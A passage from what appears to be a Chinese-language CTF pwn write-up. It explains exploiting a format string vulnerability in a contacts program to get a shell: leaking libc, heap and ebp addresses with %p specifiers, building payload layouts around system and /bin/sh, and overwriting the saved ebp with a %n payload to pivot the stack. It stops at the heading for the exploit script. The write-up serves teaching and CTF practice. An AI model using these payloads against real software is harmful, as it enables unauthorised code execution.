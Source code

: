 我们可以通过简单的判断可以得到

```
0xffffcd7c│+0x80: 0xf7e13637  →  <__libc_start_main+247> add esp, 0x10
```

存储的是__libc_start_main的返回地址，同时利用 fmtarg 来获取对应的偏移，可以看出其偏移为 32，那么相对于格式化字符串的偏移为 31。

```shell
gef➤  fmtarg 0xffffcd7c
The index of format argument : 32
```

这样我们便可以得到对应的地址了。进而可以根据 libc-database 来获取对应的 libc，继而获取 system 函数地址与 /bin/sh 函数地址了。

其次，我们可以确定栈上存储格式化字符串的地址 0xffffcd2c 相对于格式化字符串的偏移为 11，得到这个是为了寻址堆中指定联系人的Description的内存首地址，我们将格式化字符串[system_addr][bbbb][binsh_addr][%6$p][%11$p][bbbb]保存在指定联系人的Description中。

再者，我们可以看出下面的地址保存着上层函数的调用地址，其相对于格式化字符串的偏移为 6，这样我们可以直接修改上层函数存储的 ebp 的值。

```shell
0xffffcd18│+0x1c: 0xffffcd48  →  0xffffcd78  →  0x00000000	 ← $ebp
```

#### 构造联系人获取堆地址

得知上面的信息后，我们可以利用下面的方式获取堆地址与相应的 ebp 地址。

```text
[system_addr][bbbb][binsh_addr][%6$p][%11$p][bbbb]
```

来获取对应的相应的地址。后面的 bbbb 是为了接受字符串方便。

这里因为函数调用时所申请的栈空间与释放的空间是一致的，所以我们得到的 ebp 地址并不会因为我们再次调用而改变。

在部分环境下，system地址会出现\x00，导致printf的时候出现0截断导致无法泄露两个地址，因此可以将payload的修改如下：

```text
[%6$p][%11$p][ccc][system_addr][bbbb][binsh_addr][dddd]
```

payload修改为这样的话，还需要在heap上加入12的偏移。这样保证了0截断出现在泄露之后。

#### 修改ebp

由于我们需要执行 move 指令将 ebp 赋给 esp，并还需要执行 pop ebp 才会执行 ret 指令，所以我们需要将 ebp 修改为存储 system 地址 -4 的值。这样 pop ebp 之后，esp 恰好指向保存 system 的地址，这时在执行 ret 指令即可执行 system 函数。

上面已经得知了我们希望修改的 ebp 值，而也知道了对应的偏移为 6，所以我们可以构造如下的 payload 来进行修改相应的值。

```
part1 = (heap_addr - 4) / 2
part2 = heap_addr - 4 - part1
payload = '%' + str(part1) + 'x%' + str(part2) + 'x%6$n'
```

#### 获取shell

这时，执行完格式化字符串函数之后，退出到上上函数，我们输入 5，退出程序即会执行 ret 指令，就可以获取 shell。

#### 利用程序
